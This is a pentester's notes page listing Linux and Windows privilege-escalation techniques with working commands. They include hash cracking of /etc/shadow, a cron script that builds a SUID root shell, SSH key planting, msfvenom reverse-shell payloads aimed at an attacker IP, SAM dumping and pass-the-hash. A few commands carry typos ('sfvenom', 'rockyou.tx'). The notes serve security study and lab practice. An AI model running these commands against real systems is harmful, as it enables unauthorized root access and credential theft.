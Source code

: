 ```yaml
---
title: Notes | Privilage Escalation
author: Zeropio
date: 2022-04-25
categories: [Notes, System]
tags: [privilage-escalation, linux, windows]
permalink: /notes/system/privilage-escalation
---
```


# Linux Privilage Escalation

> Check the [Hacktricks](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist) checklist!
{: .prompt-tip }

---

## Enumeration

There are some useful tools like:
- [LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)
- [LinuxPrivChecker](https://github.com/sleventyeleven/linuxprivchecker)
- [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

---

## Kernel Exploits 

If is an old server we can search for Kernel vulnerabilities. For example, one famous is [DirtyCow](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs).

---

## Vulnerable software

Running `dpkg -l` to check software version.

---

## User Privileges 

It's important to check which privileges have our user.

We can try to see which commands are allowed to use:
```console
zero@pio$ sudo -l
  (user : user) NOPASSWD: /bin/echo
```
In the above example we see the variable **NOPASSWD**, which means that *user* has no password protection. We can try to change to him:
```console
zero@pio$ sudo -u user /bin/echo Hello!
  Hello!
```

Try to logging in root directly:
```console
sudo su -
```

---

## Files

### /etc/shadow
If we can read the file **/etc/shadow** we can try to break the hashes with **john**:
```console
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

If **/etc/shadow** is writeable we can change the passwords. First we need to generate one:
```console
$ mkpasswd -m -sha-512 [password]
```
And then replace the hash.

### /etc/passwd
If we can write in **/etc/passwd** we can change the password:
```console
$ openssl passwd [password]
```
Then we replace the **x** in the same line as the root with the hash, now we can log as root.

---

## Scheduled Tasks

We can find *crontab* in the following path:
- `/etc/crontab`{: .filepath}
- `/etc/cron.d`{: .filepath}
- `/var/spool/cron/crontabs/root`{: .filepath}

If in the **/etc/crontab** we have the PATH with the **/home/user** we can create the following script in the home:
```console
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
We need to give execution permission and wait to the crontab to execute the file. Then do
```console
$ /tmp/rootbash -p
```
Now we are root.

---

## Exposed Credentials

We can try searching for credentials, as in configuration, log or history files (**bash_history**).
Don't forget about **Password Reuse**.

---

## SSH

Each user has a `/.ssh/`{: .filepath} folder. If we can read the keys we can connect directly. Usually they are:
- `/home/user/.ssh/id_rsa`{: .filepath}
- `/root/.ssh/id_rsa`{: .filepath}

To connect using the RSA:
```console
zero@pio$ chmod 600 id_rsa
zero@pio$ ssh user@<ip> -i id_rsa
```

If we can write in the `/.ssh/`{: .filepath} we can write our public key inside the target machine, at `/home/user/.ssh/authorized_keys`{: .filepath}. The current SSH configuration will not accept keys written by other users, so it will only work if we have already gained control over that user.
First, create a new key. Copy the `key.pub` inside `/root/.ssh/authorized_keys`{: .filepath}.
```console
zero@pio$ ssh-keygen -f keys

victim@machine$ echo "ssh-rsa AAAAB...SNIP...M= user@zeropio" >> /root/.ssh/authorized_keys

zero@pio$ ssh root@10.10.10.10 -i key
root@remotehost$ 
```

---

## Tools
- [Kernel Vulnerabilities](https://github.com/jondonas/linux-exploit-suggester-2)
- [Useful practices](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [GTFOBins](https://gtfobins.github.io/)

---

# Windows 

> Check the [Hacktricks](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation) checklist!
{: .prompt-tip }

---

## Vulnerable Software

Check in `C:\Program Files`{: .filepath} for some programs version.

---

## Insecure Windows Service Permissions
If we manage to find one Insecure Windows Service we can modify the executable file with one corrupted and wait to the service to execute (or by ourselves with *net start [service]*).
We can create a reverse shell with **msfvenom**:
```console
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=[attackerIP] LPORT=[port] -f exe -o reverse.exe
```
And change the **reverse.exe** name with the service.exe name.

---

## Saved Credentials
We can execute:
```console
> cmdkey /list
```
to get some credentials.

Or search in configuration, log or history files (**PSReadLine**).
Also, there can be some **Password Reuse**.

---

## SAM and SYSTEM
We can search for those files in **C:\Windows\Repair**. With those we can get and crack the system's passwords.
For example with **creddump7**:
```console
> python3 creddump7/pwdump.py SYSTEM SAM
```

Then we can log in with the hash or break the hash:
```console
> pth-winexe -U 'admin%hash' //[ip] cmd.exe
```
```console
> hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.tx
```

---

## AlwaysInstalledElevated
If that property is set 1 (we can check it with: **reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevate**) we can create a msi with **msfvenom**:
```console
> sfvenom -p windows/x64/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f msi -o reverse.ms
```

---

## Tools
- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [JAWS](https://github.com/411Hall/JAWS)


